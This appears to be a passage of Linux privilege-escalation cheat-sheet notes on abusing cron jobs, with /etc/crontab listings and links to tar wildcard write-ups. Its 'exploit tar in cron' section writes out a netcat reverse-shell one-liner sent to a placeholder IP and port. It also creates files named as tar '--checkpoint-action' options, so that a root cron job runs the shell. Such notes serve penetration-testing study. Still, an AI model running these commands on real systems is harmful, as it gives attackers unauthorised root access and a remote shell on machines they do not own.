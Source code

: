 
***`Cron Jobs - File Permissions`***

[+] view crons<br>
```bash

user@debian:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh

```

[+] exploit tar in cron<br>
[+] Link: [Tar Privilege Escalation – Greg Scharf](https://blog.gregscharf.com/2021/03/22/tar-in-cronjob-to-privilege-escalation/)<br>
[Exploiting Wildcard for Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)<br>


```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc IP  PORT >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```



***`Cron Jobs - PATH Environment Variable`***



```bash
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin



```
